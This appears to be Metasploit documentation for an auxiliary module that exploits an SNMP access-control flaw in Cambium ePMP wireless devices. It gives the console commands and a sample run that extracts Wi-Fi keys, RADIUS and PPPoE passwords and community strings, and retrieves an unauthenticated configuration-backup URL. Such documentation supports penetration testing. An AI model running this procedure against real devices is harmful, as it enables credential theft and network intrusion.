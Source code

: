 Cambium devices (ePMP, PMP, Force, others) can be administered using SNMP. The device configuration contains IP addresses, keys, and passwords, amongst other information. This module uses SNMP to extract Cambium ePMP device configuration. On certain software versions, specific device configuration values can be accessed using SNMP RO string, even though only SNMP RW string should be able to access them, according to MIB documentation.

The module also triggers full configuration backup, and retrieves the backup url. The configuration file can then be downloaded without authentication. The module has been tested on Cambium ePMP versions <=3.5.

Note: If the backup url is not retrieved, it is recommended to increase the TIMEOUT and reduce the number of THREADS.

## Verification Steps

1. Do: ```use auxiliary/scanner/snmp/epmp1000_snmp_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set COMMUNTY [SNMP_COMMUNUTY_STRING]```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/snmp/epmp_snmp_loot
msf auxiliary(epmp_snmp_loot) > set rhosts 1.3.3.7
msf auxiliary(epmp_snmp_loot) > set COMMUNITY private
msf auxiliary(epmp_snmp_loot) > run

msf auxiliary(epmp1000_snmp_loot) > run

[*] Fetching System Information...

[+] 1.3.3.7
[+] SNMP System Name: Cambium
[+] SNMP System Description: Cambium
[+] Device UpTime: 0021:08:36:45
[+] U-boot version: U-Boot 9350_PX 1.1.4.e (Feb 24 2016 - 20:14:38)

[*] Fetching SNMP Information...

[+] SNMP read-only community name: public
[+] SNMP read-write community name: private
[+] SNMP Trap Community: cambiumtrap
[+] SNMP Trap Server IP Address: Null

[*] Fetching WIFI Information...

[+] Wireless Interface SSID: SSID
[+] Wireless Interface Encryption Key: secretkey
[+] Wireless Interface Encryption (1 - Open mode, 2 - wpa2 mode, 3 - EAP-TTLS): 2

[*] Fetching WIFI Radius Information...

[+] RADIUS server info:
[+] RADIUS server port: Null
[+] RADIUS server secret: Null
[+] Wireless Radius Username: cambium-station
[+] Wireless Radius Password: cambium

[*] Fetching Network PPPoE Information...

[+] Network PPPoE Service Name: temp
[+] Network PPPoE Username: username
[+] Network PPPoE Password: password

[+] 1.3.3.7 - Cambium ePMP loot saved at /root/.msf4/loot/20000000000003_default_1.3.3.7_snmp_loot_000001.txt
[+] 1.3.3.7 - Configuration backed-up for direct download at: http://1.3.3.7/dl/3.5_00000000000001.json
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
